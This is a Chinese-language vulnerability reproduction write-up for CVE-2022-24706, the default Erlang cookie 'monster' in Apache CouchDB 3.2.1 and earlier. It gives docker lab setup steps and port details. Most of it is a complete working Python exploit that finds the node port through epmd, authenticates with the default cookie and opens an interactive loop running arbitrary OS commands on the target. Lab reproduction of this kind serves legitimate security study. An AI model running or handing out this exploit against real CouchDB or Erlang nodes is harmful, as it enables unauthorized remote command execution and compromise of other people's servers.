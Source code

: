 # CouchDB Erlang 分布式协议代码执行 CVE-2022-24706

Apache CouchDB是一个Erlang开发的NoSQL数据库。

由于Erlang的特性，其支持分布式计算，分布式节点之间通过Erlang/OTP Distribution协议进行通信。攻击者如果知道通信时使用的Cookie，即可在握手包通过认证并执行任意命令。

在CouchDB 3.2.1及以前版本中，使用了默认Cookie，值为“monster”。

参考链接：

- https://docs.couchdb.org/en/3.2.2-docs/cve/2022-24706.html
- https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
- https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/erlang_cookie_rce.rb
- https://github.com/sadshade/CVE-2022-24706-CouchDB-Exploit

## 漏洞环境

Vulhub执行如下命令启动一个Apache CouchDB 3.2.1服务：

```
docker-compose up -d
```

服务启动后，会监听三个端口：

- 5984: Apache CouchDB Web管理接口
- 4369: Erlang端口映射服务（epmd）
- 9100: 集群节点通信和运行时自省服务（代码执行实际发生在这个端口中）

其中，Web管理接口和epmd服务端口是固定的，而集群通信接口在Vulhub中是9100。实际环境下，这个端口通常是随机的，我们可以通过epmd服务来获取这个端口的数值。

## 漏洞复现

我们可以使用[这个POC](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py)来利用本漏洞。这个POC会先通过目标的4369端口epmd服务获取集群通信的端口，也就是9100，然后再使用默认Cookie来控制节点执行任意命令。

```
python poc.py target-ip 4369
```

![image-20221125163205330](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202211251632392.png)

## 漏洞POC

- https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2022-24706/poc.py

```python
# Exploit Title: Remote Command Execution via Erlang Distribution Protocol 
# Date: 2022-01-21
# Exploit Author: Konstantin Burov, @_sadshade
# Software Link: https://www.erlang.org/doc/apps/erts/erl_dist_protocol.html
# Version: N/A
# Tested on: Kali 2021.2
# Based on 1F98D's Erlang Cookie - Remote Code Execution
# Shodan: port:4369 "name "
# References:
#  https://www.exploit-db.com/exploits/49418
#  https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/
#  https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd#erlang-cookie-rce
# 
#
#!/usr/local/bin/python3

import socket
from hashlib import md5
import struct
import sys
import re
import time

TARGET = sys.argv[1]
EPMD_PORT = int(sys.argv[2]) # Default Erlang distributed port
COOKIE = "monster" # Default Erlang cookie for CouchDB 
ERLNAG_PORT = 0
EPM_NAME_CMD = b"\x00\x01\x6e" # Request for nodes list

# Some data:
NAME_MSG  = b"\x00\x15n\x00\x05\x00\x07\x49\x9cAAAAAA@AAAAAAA"
CHALLENGE_REPLY = b"\x00\x15r\x01\x02\x03\x04"
CTRL_DATA  = b"\x83h\x04a\x06gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03"
CTRL_DATA += b"\x00\x00\x00\x00\x00w\x00w\x03rex"


def compile_cmd(CMD):
    MSG  = b"\x83h\x02gw\x0eAAAAAA@AAAAAAA\x00\x00\x00\x03\x00\x00\x00"
    MSG += b"\x00\x00h\x05w\x04callw\x02osw\x03cmdl\x00\x00\x00\x01k"
    MSG += struct.pack(">H", len(CMD))
    MSG += bytes(CMD, 'ascii')
    MSG += b'jw\x04user'
    PAYLOAD = b'\x70' + CTRL_DATA + MSG
    PAYLOAD = struct.pack('!I', len(PAYLOAD)) + PAYLOAD
    return PAYLOAD

print("Remote Command Execution via Erlang Distribution Protocol.\n")

# Connect to EPMD:
try:
    epm_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    epm_socket.connect((TARGET, EPMD_PORT))
except socket.error as msg:
    print("Couldnt connect to EPMD: %s\n terminating program" % msg)
    sys.exit(1)
    
epm_socket.send(EPM_NAME_CMD) #request Erlang nodes
if epm_socket.recv(4) == b'\x00\x00\x11\x11': # OK
    data = epm_socket.recv(1024)
    data = data[0:len(data) - 1].decode('ascii')
    data = data.split("\n")
    if len(data) == 1:
        choise = 1
        print("Found " + data[0])
    else:
        print("\nMore than one node found, choose which one to use:")
        line_number = 0
        for line in data:
            line_number += 1
            print(" %d) %s" %(line_number, line))
        choise = int(input("\n> "))
        
    ERLNAG_PORT = int(re.search("\d+$",data[choise - 1])[0])
else:
    print("Node list request error, exiting")
    sys.exit(1)
epm_socket.close()

# Connect to Erlang port:
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET, ERLNAG_PORT))
except socket.error as msg:
    print("Couldnt connect to Erlang server: %s\n terminating program" % msg)
    sys.exit(1)
   
s.send(NAME_MSG)
s.recv(5)
challenge = s.recv(1024)     # Receive "challenge" message
print(challenge)
challenge = struct.unpack(">I", challenge[9:13])[0]

#print("Extracted challenge: {}".format(challenge))

# Add Challenge Digest
CHALLENGE_REPLY += md5(bytes(COOKIE, "ascii")
    + bytes(str(challenge), "ascii")).digest()
s.send(CHALLENGE_REPLY)
CHALLENGE_RESPONSE = s.recv(1024)

if len(CHALLENGE_RESPONSE) == 0:
    print("Authentication failed, exiting")
    sys.exit(1)

print("Authentication successful")
print("Enter command:\n")

data_size = 0
while True:
    if data_size <= 0:
        CMD = input("> ")
        if not CMD:
            continue
        elif CMD == "exit":
            sys.exit(0)
        s.send(compile_cmd(CMD))
        data_size = struct.unpack(">I", s.recv(4))[0] # Get data size
        s.recv(45)              # Control message
        data_size -= 45         # Data size without control message
        time.sleep(0.1)
    elif data_size < 1024:        
        data = s.recv(data_size)
        #print("S---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[3:].decode())
        data_size = 0
    else:        
        data = s.recv(1024)
        #print("L---data_size: %d, data_recv_size: %d" %(data_size,len(data)))
        time.sleep(0.1)
        print(data[4:].decode())
        data_size -= 1024
```

